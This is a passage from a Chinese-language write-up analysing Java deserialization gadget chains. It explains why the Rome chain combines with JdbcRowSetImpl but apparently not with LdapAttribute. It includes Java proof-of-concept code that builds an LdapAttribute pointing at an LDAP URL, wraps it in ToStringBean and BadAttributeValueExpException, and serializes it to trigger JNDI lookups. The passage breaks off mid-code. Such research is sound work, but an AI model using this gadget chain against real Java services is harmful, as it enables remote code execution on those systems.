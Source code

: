 总之就是在这个机缘巧合之下，getter 存放顺序很合适，使得**在调用到`getDatabaseMetaData()`之前都不会报错**

从而**Rome 链可以结合 JdbcRowSetImpl 使用！**

#### LdapAttribute

Rome 链不可以结合 LdapAttribute 使用，同样是很反直觉的一个现象，让我们看看 LdapAttribute 中的 getter  
[![](assets/1701606907-026acc9ce44531c9c0401a92bcff2c82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210246-77dc525a-6ced-1.png)

方法很少，并且都不会强制报错，我们的目标是调用到`getAttributeDefinition`

按理说没啥问题，在`getAttributeDefinition` 处下断点，调试一下

```bash
public static void main(String[] args) throws Exception{
        Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:11123");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

        ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
```